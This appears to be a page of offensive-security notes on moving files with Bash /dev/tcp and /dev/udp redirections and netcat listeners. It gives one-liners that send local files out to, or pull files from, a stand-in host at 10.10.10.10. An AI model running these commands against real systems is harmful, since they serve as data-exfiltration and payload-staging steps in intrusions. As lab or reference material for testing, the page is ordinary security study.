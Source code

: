 # ⭕ TCP / UDP

## <mark style="color:red;">/dev/tcp & /dev/udp</mark>

#### Below two virtual device map provided by Linux: _/dev/tcp/$host/$port_ _/dev/udp/$host/$port_

{% hint style="warning" %}
`/dev/tcp` and `/dev/udp` redirections will work in BASH only if it has been compiled with `--enable-net-redirections` option. other shells such as zsh and rbash might not be able to redirect to tcp/udp device maps.
{% endhint %}

## <mark style="color:red;">TCP</mark>

### <mark style="color:orange;">Download File</mark>

```
nc -lvnp 80 > file # server
cat /path/file > /dev/tcp/10.10.10.10/80 # client
```

### <mark style="color:orange;">Upload Files</mark>

```
nc -w5 -lvnp 80 < file_to_send.txt # server

# client
exec 6< /dev/tcp/10.10.10.10/4444
cat <&6 > file.txt
```

## <mark style="color:red;">UDP</mark>

### <mark style="color:orange;">Download File</mark>

```
nc -ulvnp 80 > file # server
cat /path/file > /dev/udp/10.10.10.10/80 # client
```

### <mark style="color:orange;">Upload Files</mark>

```
nc -w5 -ulvnp 80 < file_to_send.txt # server


# client
exec 6< /dev/udp/10.10.10.10/4444
cat <&6 > file.txt
```
